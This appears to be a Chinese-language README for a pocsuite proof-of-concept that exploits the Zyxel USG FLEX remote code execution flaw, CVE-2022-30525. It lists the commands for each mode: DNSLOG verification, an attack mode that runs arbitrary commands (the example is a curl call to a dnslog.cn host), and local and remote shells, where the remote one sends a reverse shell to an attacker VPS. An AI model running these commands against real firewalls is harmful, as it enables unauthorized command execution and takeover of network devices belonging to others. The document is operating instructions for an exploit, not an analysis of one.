




# 0x001 验证模式默认使用DNSLOG

pocsuite -r '.\Zyxel USG FLEX handler RCE CVE-2022-30525.py' -u https://127.0.0.1:8080 

# 0x002 如DNSLOG无法使用可以使用自定义命令

pocsuite -r '.\Zyxel USG FLEX handler RCE CVE-2022-30525.py' -u https://127.0.0.1:8080 --attack --command "curl 11111111111.9lc786.dnslog.cn"

# 0x003 shell模式

## 本地模式
pocsuite -r '.\Zyxel USG FLEX handler RCE CVE-2022-30525.py' -u https://127.0.0.1:8080 --shell

## 远程模式
pocsuite -r '.\Zyxel USG FLEX handler RCE CVE-2022-30525.py' -u https://127.0.0.1:8080 --shell --lhost vpsip --lport vps端口

